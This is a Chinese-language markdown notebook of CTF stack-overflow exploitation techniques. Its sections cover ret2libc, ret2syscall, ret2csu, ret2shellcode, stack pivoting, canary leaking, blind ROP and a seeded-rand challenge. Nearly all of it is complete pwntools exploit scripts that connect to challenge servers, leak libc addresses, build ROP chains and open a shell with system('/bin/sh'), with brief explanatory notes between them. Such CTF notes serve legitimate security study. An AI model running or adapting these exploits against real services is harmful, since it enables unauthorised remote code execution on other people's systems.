

# Stack

我这里记录一些比较典型的栈溢出攻击payload，可以从脚本中看看每一个模块的思路

更详细的内容可以看：
[CTF_WIKI](https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/)

# 栈溢出

## ret2libc

```bash
from pwn import *
from LibcSearcher import *
# sh = process("./shellcode")

sh = remote("pwn.challenge.ctf.show",'28216')
elf = ELF("./pwn")
context.log_level='debug'
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']

main_addr = elf.symbols['main']
pop_rdi = 0x400793
ret_addr =0x40053e

sh.recvuntil("successful!\n")
payload = b'a'*(0x70+8)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(main_addr)

sh.sendline(payload)
sh.recvuntil("a joke")
puts_addr = u64(sh.recv(6).ljust(8,b'\x00'))

libc = LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base + libc.dump("system")
binsh = libc_base + libc.dump("str_bin_sh")

sh.recvuntil("successful!")
payload2 = b'a'*(0x70+8)+p64(ret_addr)+p64(pop_rdi)+p64(binsh)+p64(system_addr)
sh.sendline(payload2)

sh.interactive()
```

- 一般来说在`ret2libc`中当要进行`sh.recv()`进行`libc`基地址获取查看的时候，我们可以选择`sh.recvuntil("\n")`然后再`recv(4)`这样可以完美获取相关`libc`地址。

## `ret2syscall`

```python
from pwn import * 

sh = remote("pwn.challenge.ctf.show ","28251")

pop_eax =0x080bb196
pop_edx_ecx_ebx = 0x0806eb90
binsh=0x080be408
int80 =0x08049421 

payload = p32(pop_eax)+p32(0xb)+p32(pop_edx_ecx_ebx)+p32(0)+p32(0)+p32(binsh) +p32(int80)

sh.sendlineafter("ret2syscall!\n",payload)

sh.interactive()
```

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell

`execve("/bin/sh",NULL,NULL)`

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

## `libc2csu`



```python
from pwn import *
from LibcSearcher import *
# sh = process("./shellcode")

sh = remote("pwn.challenge.ctf.show",'28154')
elf = ELF("./ret2libc_64")
#context.log_level='debug'
write_plt = elf.plt['write']
write_got = elf.got['write']

main_addr = elf.symbols['main']
pop_rdi = 0x04006c3
ret_addr =0x4004a9

csu_end= 0x04006BA               # pop rbx   
csu_front = 0x04006A0            # mov rdx, r13

def csu(rbx,rbp,r12,r13,r14,r15,main_addr):
    payload = b"a"*(0xa0+8) + p64(csu_end)
    payload += p64(rbx)   # 0 
    payload += p64(rbp)    # 1
    payload += p64(r12)   # write_got
    payload += p64(r13)    # 8
    payload += p64(r14)   # write_got
    payload += p64(r15)   # 1
    payload += p64(csu_front)   
    payload += p64(0xdeadbeef)*7 + p64(main_addr)

    sh.sendline(payload)

if __name__ == "__main__":

    sh.recvuntil("Me?\n")
    csu(0,1,write_got,8,write_got,1,main_addr)

    write_addr = u64(sh.recv(6).ljust(8,b"\x00"))

    libc = LibcSearcher("write",write_addr)
    libc_base = write_addr - libc.dump("write")
    system_addr = libc_base + libc.dump("system")
    binsh = libc_base + libc.dump("str_bin_sh")

    sh.recvuntil("Me?\n")
    
   
    payload2 = b'a'*(0xa0)+ p64(0xdeadbeef) + p64(ret_addr)+p64(pop_rdi)+p64(binsh)+p64(system_addr)+p64(main_addr)
    sh.sendline(payload2)

    sh.interactive()
```

## ret2shellcode

```python
#!/usr/bin/env python
from pwn import *

sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080

sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()
```

## 栈迁移


```python
from pwn import *

sh = remote("pwn.challenge.ctf.show",28278)
elf = ELF("./pwn")

context.log_level ='debug'
leave_ret = 0x080484d5
system_plt = elf.plt['system']

sh.recvuntil("codename:\n")
payload = b"a"*(0x24)+b"show"
sh.send(payload)
sh.recvuntil("show")
ebp = u32(sh.recv(4))
print(ebp)

buf_s = ebp - 0x38
sh.recvuntil("do?\n")
payload2 = p32(system_plt)+b'dead'+p32(buf_s+0xc) + b"/bin/sh\x00" 
payload2 = payload2.ljust(0x28)
payload2 += p32(buf_s-4)+p32(leave_ret)

sh.sendline(payload2)

sh.interactive()
```

```bash
from pwn import *
context.update(os='linux', arch='amd64', log_level='debug')
binary = './pwn'
elf = ELF(binary)
libc = ELF('./libc.so.6')
debug = 0
if debug:
    libc = elf.libc
    p = process(binary)
else:
    host = '127.0.0.1'
    port = '1145'
p = remote(host, port)
ret = 0x000000000040101a
pop_rdi_ret = 0x0000000000401333
leave_ret = 0x00000000004012AA

p.sendafter("your name:\n", b'a'*8)
p.recvuntil('a'*8)
libc.address = u64(p.recvuntil('\x7f')[-6:].ljust(8, b'\x00')) - libc.sym["_IO_file_jumps"]
binsh = next(libc.search(b"/bin/sh"))
success("libc-->" + hex(libc.address))

p.recvuntil("I have a small gift for you: ")
rop_addr = int(p.recv(14), 16) + 8
success("rop_addr-->" + hex(rop_addr))
p.recvuntil("more infomation plz:\n")

pay = p64(pop_rdi_ret) + p64(binsh) + p64(libc.sym["system"])
pay = pay.ljust(0x50, b'\x00')
pay += p64(rop_addr - 8)
pay += p64(leave_ret)

p.send(pay)
p.interactive()
```

总结：

- 栈的地址是随机的，因为我们默认`ASLR`在远端服务器上默认开启；所以如果想要获取栈地址，并且看到有`buf`直接与`ebp`相连的时候，可以直接通过`send()`方法将字符串直接输入满，同时因为`send()`方法没有`\n`换行符，输出是会将后面的`ebp`的值一同输出；获取到`ebp`的值就可以获取到栈中任意变量的地址了
- 栈中也可以直接构造字符串，就像是`p32(buf_s+0xc) + b"/bin/sh\x00"`这样，写个带一点偏移的地址就可以
- 栈迁移就是针对将ROP多的部分放在其他地方（不止在栈中），至少需要可以覆盖到返回地址

当使用了栈迁移的时候，栈内存如下：


### 小技巧

- 栈迁移的前置条件可以不是必须要`leave`指令，在将`ebp`进行覆盖以后就算是进行栈迁移了，因为后面返回的函数结束之后就会进入到我们想要的地方

## canary相关

```bash
from pwn import *

context.log_level='debug'

io=remote('8.130.35.16',55000)
#io = process("./pwn")
io.recvuntil('plz?\n')
payload = b'a'*(0x20-0x8+0x1)

io.send(payload)

canary = io.recvuntil(b".")[-8:-1].rjust(8,b'\x00')
canary = u64(canary)
print(hex(canary))
io.send('y')
io.recvuntil(b'plz.')

payload = b'a'*(0x20-0x8)+p64(canary)+cyclic(0x8)+p64(0x401231)
io.send(payload)
io.interactive()
```

收获：

- `canary`以`\x00`结尾，目的是为了隔离字符串，但是我们如果可以直接将字符串写到canary的末尾，就可以泄露`canary`，用这个`canary`的值重新写回，来构造payload


## BROP

```python
from pwn import *
from LibcSearcher import *

import logging
#context.log_level  = 'debug'
port = 28158
buf_size = 72
stop_addr = 0x400728
brop_addr = 0x40083a
puts_plt = 0x400550
pop_rdi = brop_addr +0x9
i = 0x400730

def getBuflen():
    i = 5
    while 1:
        sh = remote("pwn.challenge.ctf.show",port)
        sh.recvuntil("daniu?\n")
        sh.send(b'a'*i)
        data = sh.recv()
        if not data.startswith(b"No passwd"):
            return i -1
        else:
            i = i+1
        sh.close()

def getGadgetAddr(stacklen):
    addr = 0x400700

    while 1:
        try:
            sh = remote("pwn.challenge.ctf.show",port)
            sh.recvuntil("daniu?\n")
            payload = b'a'*stacklen+p64(addr)
            sh.send(payload)
            data = sh.recv()
            if not data.startswith(b"Welcome to CTFshow-PWN !"):
                sh.close()
                addr +=1
            else:
                return addr 
        except EOFError:
            sh.close()
            addr +=1
            print("bad :0x%x" % addr)
        except:
            log.info("can't connect")
            addr -= 1
            

def get_gadgets_addr(buf_size, stop_addr):
    addr = stop_addr
    while True:
        sleep(0.1)
        addr += 1
        payload  = b"A"*buf_size
        payload += p64(addr)
        payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)
        payload += p64(stop_addr)
        try:
            p = remote('pwn.challenge.ctf.show', port)
            p.recvuntil("daniu?\n")
            p.sendline(payload)
            data = p.recv(timeout=1)
            print(data)
            p.close()
            print("find address: 0x%x" % addr)
            if b"Welcome" in data:
                try:    # check
                    payload  = b"A"*buf_size
                    payload += p64(addr)
                    payload += p64(1) + p64(2) + p64(3) + p64(4) + p64(5) + p64(6)

                    p = remote('pwn.challenge.ctf.show', port)
                    p.recvline()
                    p.sendline(payload)
                    p.recvline()
                    p.close()
                    print("************************** bad address: 0x%x ***********************" % addr)
                except:
                    p.close()
                    print("************************** gadget address: 0x%x ***********************" % addr)
                    return addr
            else:
                continue
        except EOFError as e:
            p.close()
            print("\nEOFError: 0x%x" % addr)
        except :
            print("\ncan't connect!")
            addr -=1
	
            
def get_puts_addr():
    addr = 0x400540
    pop_rdi = brop_addr +0x9
    while 1:
        addr += 0x10
        print (hex(addr))
        payload  = b"A"*buf_size
        payload += p64(pop_rdi)
        payload += p64(0x400000)
        payload += p64(addr)
        payload += p64(stop_addr)
        
        sh = remote('pwn.challenge.ctf.show', port)
        sh.recvuntil(b'daniu?\n')
        sh.send(payload)
        data = sh.recv()
        sh.close()
        print(data)
        if not data.startswith(b"\x7fELF"):
            continue
        else:
            print("put_plt addr = 0x%x" % addr)
            
            
def get_puts_got():
    
    pop_rdi = brop_addr +0x9
    payload  = b"A"*buf_size
    payload += p64(pop_rdi)
    payload += p64(puts_plt)
    payload += p64(puts_plt)
    payload += p64(stop_addr)

    sh = remote('pwn.challenge.ctf.show', port)
    sh.recvuntil(b'daniu?\n')
    sh.send(payload)
    recv = u64(sh.recv()[2:5].ljust(8,b"\x00"))
    sh.close()
    offs_got_puts=(recv)
    
    return puts_plt + 6 + offs_got_puts
    

            
puts_got = get_puts_got()

payload  = b"A"*buf_size
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(stop_addr)

sh = remote('pwn.challenge.ctf.show', port)
sh.recvuntil(b'daniu?\n')
sh.send(payload)
puts_addr = u64(sh.recv()[0:6].ljust(8,b"\x00"))
print (hex(puts_addr))

libc = LibcSearcher("puts",puts_addr)
libc_base = puts_addr - libc.dump("puts")
system_addr = libc_base + libc.dump("system")
binsh = libc_base + libc.dump("str_bin_sh")

payload  = b"A"*buf_size
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_addr)
payload += p64(stop_addr)

#sh = remote('pwn.challenge.ctf.show', port)
#sh.recvuntil(b'daniu?\n')
sh.sendline(payload)

sh.interactive()
```


# 静态编译

```bash
ROPgadget --binary ./pwn --ropchain
```

# 其他题目

## 伪随机数

```python
from pwn import *
from ctypes import *

context.log_level = 'debug'
context(arch='amd64', os='linux')

libc = cdll.LoadLibrary('/home/kali/Desktop/glibc-all-in-one-master/libs/2.27-3ubuntu1_amd64/libc.so.6')

libc.srand(libc.time(0))

sh = remote("node4.buuoj.cn",27604)
#sh = process("./pwn5")
sh.recvuntil(b"number?\n")	
sh.sendline(str(libc.rand()).encode())
sh.recv(timeout =1)
sh.interactive()
```


